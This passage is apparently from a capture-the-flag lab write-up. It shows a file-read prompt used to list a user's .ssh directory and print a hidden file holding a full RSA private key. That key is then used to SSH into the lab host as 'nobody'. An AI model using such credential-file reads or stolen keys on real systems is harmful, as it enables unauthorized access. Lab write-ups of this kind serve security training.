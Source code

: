 ```
Enter the absolute path to a file (with f:<file>) or directory (with d:<dir>): d:/home/nobody/.ssh
.
..
.monitor
authorized_keys
known_hosts
```

```
Enter the absolute path to a file (with f:<file>) or directory (with d:<dir>): f:/home/nobody/.ssh/.monitor
-----BEGIN RSA PRIVATE KEY-----
MIIEogIBAAKCAQEAs7sytDE++NHaWB9e+NN3V5t1DP1TYHc+4o8D362l5Nwf6Cpl
mR4JH6n4Nccdm1ZU+qB77li8ZOvymBtIEY4Fm07X4Pqt4zeNBfqKWkOcyV1TLW6f
87s0FZBhYAizGrNNeLLhB1IZIjpDVJUbSXG6s2cxAle14cj+pnEiRTsyMiq1nJCS
dGCc/gNpW/AANIN4vW9KslLqiAEDJfchY55sCJ5162Y9+I1xzqF8e9b12wVXirvN
o8PLGnFJVw6SHhmPJsue9vjAIeH+n+5Xkbc8/6pceowqs9ujRkNzH9T1lJq4Fx1V
vi93Daq3bZ3dhIIWaWafmqzg+jSThSWOIwR73wIDAQABAoIBADHwl/wdmuPEW6kU
vmzhRU3gcjuzwBET0TNejbL/KxNWXr9B2I0dHWfg8Ijw1Lcu29nv8b+ehGp+bR/6
pKHMFp66350xylNSQishHIRMOSpydgQvst4kbCp5vbTTdgC7RZF+EqzYEQfDrKW5
8KUNptTmnWWLPYyJLsjMsrsN4bqyT3vrkTykJ9iGU2RrKGxrndCAC9exgruevj3q
1h+7o8kGEpmKnEOgUgEJrN69hxYHfbeJ0Wlll8Wort9yummox/05qoOBL4kQxUM7
VxI2Ywu46+QTzTMeOKJoyLCGLyxDkg5ONdfDPBW3w8O6UlVfkv467M3ZB5ye8GeS
dVa3yLECgYEA7jk51MvUGSIFF6GkXsNb/w2cZGe9TiXBWUqWEEig0bmQQVx2ZWWO
v0og0X/iROXAcp6Z9WGpIc6FhVgJd/4bNlTR+A/lWQwFt1b6l03xdsyaIyIWi9xr
xsb2sLNWP56A/5TWTpOkfDbGCQrqHvukWSHlYFOzgQa0ZtMnV71ykH0CgYEAwSSY
qFfdAWrvVZjp26Yf/jnZavLCAC5hmho7eX5isCVcX86MHqpEYAFCecZN2dFFoPqI
yzHzgb9N6Z01YUEKqrknO3tA6JYJ9ojaMF8GZWvUtPzN41ksnD4MwETBEd4bUaH1
/pAcw/+/oYsh4BwkKnVHkNw36c+WmNoaX1FWqIsCgYBYw/IMnLa3drm3CIAa32iU
LRotP4qGaAMXpncsMiPage6CrFVhiuoZ1SFNbv189q8zBm4PxQgklLOj8B33HDQ/
lnN2n1WyTIyEuGA/qMdkoPB+TuFf1A5EzzZ0uR5WLlWa5nbEaLdNoYtBK1P5n4Kp
w7uYnRex6DGobt2mD+10cQKBgGVQlyune20k9QsHvZTU3e9z1RL+6LlDmztFC3G9
1HLmBkDTjjj/xAJAZuiOF4Rs/INnKJ6+QygKfApRxxCPF9NacLQJAZGAMxW50AqT
rj1BhUCzZCUgQABtpC6vYj/HLLlzpiC05AIEhDdvToPK/0WuY64fds0VccAYmMDr
X/PlAoGAS6UhbCm5TWZhtL/hdprOfar3QkXwZ5xvaykB90XgIps5CwUGCCsvwQf2
DvVny8gKbM/OenwHnTlwRTEj5qdeAM40oj/mwCDc6kpV1lJXrW2R5mCH9zgbNFla
W0iKCBUAm5xZgU/YskMsCBMNmA8A5ndRWGFEFE+VGDVPaRie0ro=
-----END RSA PRIVATE KEY-----
```


When I tried to use the key, I got a bad format error.  The key looks fine on its face, but it actually has a space at the beginning of the last line.  Once we remove that, we can use the key:
```bash
# ssh will complain if the permissions on the key are not read-only
chmod 400 monitor_key
# Even though the key was called monitor, the key is the authorized key for the nobody user
ssh -i monitor_key nobody@10.10.10.87
```
![SSH as nobody](screenshots/8_ssh_as_nobody.PNG)
